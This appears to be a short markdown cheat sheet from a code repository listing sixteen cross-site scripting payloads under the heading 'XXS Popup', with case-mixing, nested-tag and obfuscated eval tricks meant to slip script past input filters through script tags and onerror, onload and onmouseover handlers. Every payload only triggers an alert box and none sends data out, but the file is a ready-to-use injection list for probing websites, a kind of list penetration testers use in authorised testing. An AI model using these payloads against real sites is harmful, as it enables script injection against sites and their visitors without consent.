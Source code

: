 # Payloads
## XXS Popup:
- <script>alert("XSS");</script>
- <script>alert(‘XSS’);</script>
- <script>alert(‘XSS’)</script>
- <<script>alert("XSS");//<</script>
- <sCripT>alert("XSS")</scRipt>
- <scr<script>ipt>alert('XSS')</script>
- <sCripT>alert('XSS')</scRipt>
- <img src=/ onerror="alert('XSS')"/>
- <img src=x onMouseOver=alert('XSS')>
- <svg/onload=eval("ale"+"rt")(/`XSS${alert/`XSS/`}/`)>
- <img src='nevermind' onerror="alert('XSS');" />
- << script>alert("XSS");//<</ script>
- <svg/onload=alert('XSS')>
- div.innerHTML = '<script deferred>alert("XSS");</script>';
- <img src="aaa" onerror=alert('xxs')>
- <body onload="alert('XSS')">
